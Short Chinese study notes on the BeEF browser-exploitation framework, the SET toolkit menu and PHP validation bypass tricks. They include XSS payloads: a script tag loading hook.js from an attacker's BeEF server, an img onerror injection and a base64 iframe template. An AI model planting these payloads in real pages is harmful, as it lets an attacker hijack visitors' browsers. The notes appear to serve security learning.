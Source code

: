 beef xss攻击框架 （beef beef）

​	原理:

​		向网页中插入一段hook.js的脚本代码，如果被攻击方访问了这个页面被攻击方就会被这个钩子钩住，然后在攻击方beef的服务器上上线

​	攻击的方式

​			在存在xss漏洞的主机上访问

​			<script src="http://BeEF主机-IP:3000/hook.js"></script>beef服务端被害人上线

​	页面左侧为在线的主机和不在线的主机

​		online browsers

​		offline browsers

​	details是浏览器的信息详情

​	logs能记录在浏览器上的操作

​	commands你能对浏览器的操作

​			绿色和橙色（能被用户发现）表明攻击模块可用灰色待验证红色为不可用

​	在存在跨站点的地方输入<img src=x onerror=alert(1); />会回弹一个图片 鼠标移到图片上会回弹一个1

	    <iframe src="data:text/html;base64,这里加你的经过base64加密过的脚本代码"></iframe>

set攻击

​	菜单 

​		1 社会工程学攻击



​						![捕获1](C:\Users\hasee\Desktop\捕获1.PNG)



​		

​		2 是Fast-Track渗透测试（自动化的漏洞攻击 如自动化的查询注入）	

​						![捕获2](C:\Users\hasee\Desktop\捕获2.PNG)

​		3 第三方模块

​		4 升级

​		5 升级配置

​		6 帮助	



get传参就为urlcode  strcmp 数组和字符串能够相等 ereg（）函数存在%00截断漏洞  MD5存在数组相等的漏洞

​	

​	